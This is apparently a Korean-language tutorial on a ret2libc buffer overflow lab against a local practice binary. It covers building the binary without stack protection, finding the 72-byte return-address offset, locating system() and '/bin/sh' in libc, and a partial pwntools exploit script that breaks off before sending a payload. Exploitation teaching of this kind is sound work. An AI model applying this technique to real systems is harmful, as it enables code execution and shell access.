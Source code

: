   다음과 같이 빌드한다.

  ```
  gcc -fno-stack-protector -o ret2libc ret2libc.c -ldl
  ```

  ![image](https://user-images.githubusercontent.com/59410565/117282503-ca2e5800-ae9f-11eb-812f-5bff6f7e78a3.png)

**[Break Point]**

- vuln+0 : vuln() 함수의 첫번째 명령어
- vuln+106 : read() 함수 호출
- vuln+113 : vuln() 함수의 RET 명령어

![image](https://user-images.githubusercontent.com/59410565/117536373-a6047f80-b035-11eb-8c16-b31196c1255c.png)

- ESP 레지스터가 가리키고 있는 최상위 stacak의 주소는 0x7fffffffde48이고, 이 영역에 Return address(0x4006f6)이 저장되어 있다.

![image](https://user-images.githubusercontent.com/59410565/117283076-68222280-aea0-11eb-97bf-dfda8aacd898.png)

![image](https://user-images.githubusercontent.com/59410565/117536441-ff6cae80-b035-11eb-95f4-a19def40fd54.png)

- 다음과 같이 buf 변수의 주소를 확인할 수 있다. buf 변수의 위치는 0x7fffffffdd90이고, return address와 72bytes 떨어져있다. 즉, 문자를 72개 이상 입력하면 return address를 덮어쓸 수 있다.

![image](https://user-images.githubusercontent.com/59410565/117536476-29be6c00-b036-11eb-9c63-536cb62855b9.png)

- 다음과 같이 값이 변경된 것을 볼 수 있다.

------



#### Find the Libc address of the system() function and "/bin/sh"

- 다음과 같이 Libc 영역에서 system() 함수의 주소를 찾을 수 있다.

![image](https://user-images.githubusercontent.com/59410565/117536498-4490e080-b036-11eb-8beb-2e4dc5a16406.png)

- 다음과 같이 "/bin/sh" 문자열을 찾을 수 있다.

![image](https://user-images.githubusercontent.com/59410565/117536733-c6cdd480-b037-11eb-8c8f-7ec04288e13a.png)

- 다음과 같이 필요한 코드를 찾을 수 있다.

![image-20210508202204392](https://user-images.githubusercontent.com/59410565/117546163-0dd1bf00-b064-11eb-8b6c-3a44f1de891e.png)

------



#### Exploit

````python
from pwn import *
  
p = process('./ret2libc')
  
p.recvuntil('Printf() address : ')
stackAddr = p.recvuntil('\n')
stackAddr = int(stackAddr,16)
  
libcBase = stackAddr - 0x55810
sysAddr = libcBase + 0x453a0
binsh = libcBase + 0x18ce17
poprdi = 0x400763
  
print hex(libcBase)
print hex(sysAddr)
````
